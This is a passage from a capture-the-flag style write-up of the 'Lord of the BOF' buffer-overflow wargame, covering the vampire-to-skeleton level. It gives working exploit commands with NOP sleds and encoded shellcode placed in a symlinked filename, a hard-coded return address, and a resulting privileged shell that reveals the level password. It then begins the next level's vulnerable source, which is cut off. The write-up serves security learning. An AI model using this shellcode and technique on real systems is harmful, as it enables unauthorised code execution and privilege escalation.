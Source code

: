 ```
0x8048678 <main+376>:	nop
0x8048679 <main+377>:	nop
0x804867a <main+378>:	nop
0x804867b <main+379>:	nop
0x804867c <main+380>:	nop
0x804867d <main+381>:	nop
0x804867e <main+382>:	nop
0x804867f <main+383>:	nop
```

### 3. exploit code
0xbfffff97

```
cp  ~/skeleton `python -c 'print  "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```


```
ln -sf ~/skeleton `python -c 'print  "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*50'`
```


```
./`python -c 'print  "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*50'` `python -c 'print "A"*44+"\x97\xff\xff\xbf"'`
```

```
bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
```


## skeleton

### 1. source code
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

```